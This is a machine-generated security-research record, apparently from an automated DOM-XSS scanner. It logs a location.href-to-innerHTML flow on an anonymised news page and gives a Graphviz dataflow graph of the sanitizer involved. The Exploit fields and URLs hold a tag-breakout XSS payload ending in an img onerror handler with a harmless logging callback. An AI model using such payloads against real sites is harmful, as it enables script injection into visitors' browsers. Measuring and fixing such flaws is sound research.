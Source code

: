 // Finding: e95dd5e2-f779-4877-bc36-3df7868f924d
// Finding.url: https://n.example123.com/news/godfather-and-gorney-podcast-cfb-s-biggest-dumpster-fires?ga_source=cm##%22%3E%3C%2Fiframe%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3C%2Fobject%3E%3C%2Fembed%3E%3C%2Ftextarea%3E%3Cimg%20src=x%20onerror=taintfoxLog('e8becc439ded45838b2f77b73b8c88bd')%3E%3C!--%2F*
// Finding.parentloc: https://n.example123.com/news/godfather-and-gorney-podcast-cfb-s-biggest-dumpster-fires?ga_source=cm##%22%3E%3C%2Fiframe%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3C%2Fobject%3E%3C%2Fembed%3E%3C%2Ftextarea%3E%3Cimg%20src=x%20onerror=taintfoxLog('e8becc439ded45838b2f77b73b8c88bd')%3E%3C!--%2F*
// Finding.domain: n.example123.com
// Finding.base_domain: example123.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 3
// Sanitizer.name: _
// Sanitizer.location: https://s.example119.com/rq/darla/4-8-0/js/g-r-min.js - _:1:3616
// Finding.begin: 10539
// Finding.end: 10551
// Finding.original_uuid: 122743b1-ae35-46ff-bb2e-63e1373f8a45
// Finding.TwentyFiveMillionFlowsId: 645378729
// Finding.script: https://s.example119.com/rq/darla/4-8-0/js/g-r-min.js
// Finding.line: 1
// Exploit.uuid: e8becc43-9ded-4583-8b2f-77b73b8c88bd
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: name
// Exploit.quote_type: "
// Exploit.tag: iframe
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 5
// Exploit.replace_begin_url: 96
// Exploit.replace_end_url: 96
// Exploit.replace_begin_param: 17439
// Exploit.replace_end_param: 17439
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1974217748
// DepGraph.sanitizer_hash: -1974217748

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="regex_exec"];
n2 [shape=box, label="RegExp: /^(?:([^:/?#.]+):)?(?:\/\/(?:([^\\/?#]*)@)?([^\\/?#]*?)(?::([0-9]+))?(?=[\\/?#]|$))?([^?#]+)?(?:\?([^#]*))?(?:#([\s\S]*))?$/"];
n3 [shape=box, label="Lit: 3"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="regex_match"];
n6 [shape=box, label="RegExp: /^(?:([^:/?#.]+):)?(?:\/\/(?:([^\\/?#]*)@)?([^\\/?#]*?)(?::([0-9]+))?(?=[\\/?#]|$))?([^?#]+)?(?:\?([^#]*))?(?:#([\s\S]*))?$/"];
n7 [shape=box, label="Lit: 3"];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="preg_replace"];
n10 [shape=box, label="RegExp: /%25/"];
n11 [shape=box, label="Lit: %2525"];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="decodeURI"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="."];
n16 [shape=box, label="Lit: "];
n17 [shape=ellipse, label="."];
n18 [shape=box, label="Lit: "];
n19 [shape=ellipse, label="escape"];
n20 [shape=box, label="Var: x"];
n21 [shape=box, label="Var: x"];
n22 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n12 -> n5;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n14 -> n9;
n13 -> n14;
n15 -> n16;
n15 -> n13;
n17 -> n15;
n17 -> n18;
n20 -> n17;
n19 -> n20;
n21 -> n19;
n22 -> n21;
}